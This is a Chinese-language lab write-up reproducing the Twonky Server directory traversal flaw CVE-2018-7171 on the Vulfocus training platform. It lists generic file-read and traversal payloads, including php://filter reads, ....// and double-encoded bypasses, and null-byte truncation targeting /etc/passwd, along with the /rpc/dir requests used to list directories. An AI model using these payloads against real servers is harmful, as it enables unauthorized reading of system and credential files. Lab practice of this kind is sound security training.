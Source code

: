 # 原创
：  【漏洞复现-twonkyserver-目录遍历】vulfocus/twonkyserver-cve_2018_7171

# 【漏洞复现-twonkyserver-目录遍历】vulfocus/twonkyserver-cve_2018_7171

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:44884
123.58.224.8:63774
123.58.224.8:29529

 123.58.224.8:29529

 



> 
<h3>1.2、知识:</h3>
1、文件读取（和目录遍历类似）
?url=file:/etc/pass
/fi/?page=C:/xxx
/index.php/?page=shell.php
index.php?path=php://filter/read=convert.base64-encode/resource=xxx.php(base64加密，避免被当成php执行而乱码)
<hr/>
2、跳目录
../上一级
（有时候可能需要考虑绕过过滤）
单次过滤：....//
正则匹配斜杠：..%252f(双重URL编码，因为浏览器会解码一次)
起始路径匹配：起始路径+相对路径结合绕过
后缀检测：空字节绕过（%00截断）../etc/passwd%00.png
……


> 
<h3>1.3、描述：</h3>
LYNX Twonky Server 7.0.11版本至8.5版本中存在目录遍历漏洞。远程攻击者可通过向rpc/set_all发送带有‘..’序列的‘contentbase’参数利用该漏洞分享任意目录的内容


---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
http://ip:port**/rpc/dir?path=/**

得到flag目录的信息
<pre>010D/tmp</pre>
http://ip:port**/rpc/dir?path=010**<img alt="" height="256" src="https://img-blog.csdnimg.cn/63f2d95b9843488487c70189d3d83d91.png" width="919"/>
 

